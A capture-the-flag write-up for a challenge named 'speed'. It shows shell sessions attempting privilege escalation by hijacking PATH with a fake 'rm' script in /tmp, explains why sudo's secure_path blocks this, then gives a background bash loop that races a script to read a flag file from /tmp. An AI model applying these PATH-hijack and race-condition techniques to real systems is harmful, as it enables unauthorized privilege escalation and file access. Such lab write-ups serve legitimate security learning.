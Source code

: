 One of the attempt we can do to gain some previlidges is to do some **Path manipulation**. Indeed, we can find the the path variable can be eddited, so used to overwrite some commands and scripts :

```
ctf@speed-74bbd6d8d9-6724k:/challenge$ export PATH=/tmp:$PATH
ctf@speed-74bbd6d8d9-6724k:/challenge$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

But, when trying to exploit it by, for example, overwrite the `rm` command, this doesn't work. We can see that the cron jobs still deletes files from `/tmp` :


```
ctf@speed-74bbd6d8d9-6724k:/challenge$ ls -l /tmp
total 0
ctf@speed-74bbd6d8d9-6724k:/$ cd /tmp; echo "cat /tmp/A_flag_that_you_can't_catch" > rm; chmod 777 rm; export PATH=/tmp:$PATH;cd /
ctf@speed-74bbd6d8d9-6724k:/challenge$ ls -l /tmp
total 0
-rwxrwxrwx 1 ctf ctf 0 Dec 26 02:55 rm
```

After few seconds :

```
ctf@speed-74bbd6d8d9-6724k:/challenge$ ls -l /tmp
total 0
```

This is due to the fact that by default sudo reset env to default variables that you set. So, when we modify the path variable in our session, then run `sudo -u ...`, it will run with another path, the `secure_path` that you can find in the `sudoers` file
### Solution


When checking also the tag, we can **Race Condition** : The Race condition is a privilege escalation vulnerability that manipulates the time between imposing a security control and using services in a UNIX-like system. This vulnerability is a result of interferences caused by multiple sequential threads running in the system and sharing the same resources. A race condition could occur due to sequence conditions imposed by un-trusted processes or locking failure conditions imposed by secure programs such as operating systems. The race condition is a common vulnerability in UNIX-like systems, where directories such as /tmp and /var/tmp are shared between threads.

So our idea is to make the `read.py` and, not the cron job, but a script that we make, for example to read the flag, race on accessing the flag located in the `/tmp`, and for that we need to keep executing the `read.py` as well as the reading script, simultaneously, until it happens then we get the flag.

1. For our reading script, we will try to run in a loop, in the background to create the simultanity effect, a `cat` command on the `/tmp` flag :

```
#!/bin/bash
old="1"

while [ "$old" == "$old" ]  
do
   cat /tmp/"A_flag_that_you_can't_catch" 2> /dev/shm/err &
done
```
